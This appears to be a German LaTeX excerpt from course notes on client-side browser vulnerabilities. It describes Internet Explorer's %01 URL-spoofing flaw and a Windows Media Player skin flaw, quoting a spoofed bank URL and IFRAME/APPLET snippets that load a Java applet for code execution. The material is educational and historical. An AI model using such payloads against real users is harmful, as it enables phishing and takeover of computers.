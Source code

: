 \subsubsection{Observing Customer Data}


\subsubsection{Client-side vulnerability}
Oft ist das Ziel einer Attacke eine Sicherheitslücke eines Browsers. Moderne Browsers können Flash, Java-Programme, Filme, etc. direkt abspielen. Dazu verwenden sie Programme, welche auf dem Computer des Opfers installiert sind. Angreifer können sich Schwachstellen im Browsern oder den installierten Programmen zum Nutzen machen, um zum Beispiel weiteren Schadcode auf dem Rechner zu installieren. 

Internet Explorer hatte die Sicherheitslücke, dass er \Glspl{urlLabel}, welche die Zeichenfolge \%01 enthielten, einfach abschnitt. Besucht der Benutzer die Seite \\
http://meinebank.ch:ebanking\%01@hack.ch, wurde die ganze \Gls{urlLabel} ausgeführt, jedoch nur der Teil vor dem \%01 angezeigt.

Eine weitere Sicherheitslücke bestand im Programm Media Player von Microsoft. Über folgenden Code konnte ein Skin für den Player heruntergeladen werden:
\begin{quote}
"C:/Program files/Windows Media Player/Skins/SKIN.WMZ" : <IFRAME
SRC="'\textbf{wmp2.wmz}"'></IFRAME>
\end{quote}

Die Datei \textit{wmp2.wmz} konnte dabei ein Java Applet sein. Das ist ein Java Code, welcher vom Browser ausgeführt werden kann. Mit folgendem Stück Code auf einer Webseite konnte die schadhafte Datei ausgeführt werden
\begin{quote}
<APPLET \\
  CODEBASE="file://c:/" \\
  ARCHIVE="Program files/Windows Media\\
  Player/SKINS/\textbf{wmp2.wmz}"\\
  CODE="gjavacodebase.class" \\
  WIDTH=700 \\
  HEIGHT=300>\\
  <PARAM NAME="URL" VALUE="'file:///c:/test.txt" x >
</APPLET>
\end{quote}
Damit kann jeglicher Schadcode ausgeführt werden. Sprich ein Hacker kann volle Kontrolle über einen Computer erlangen.

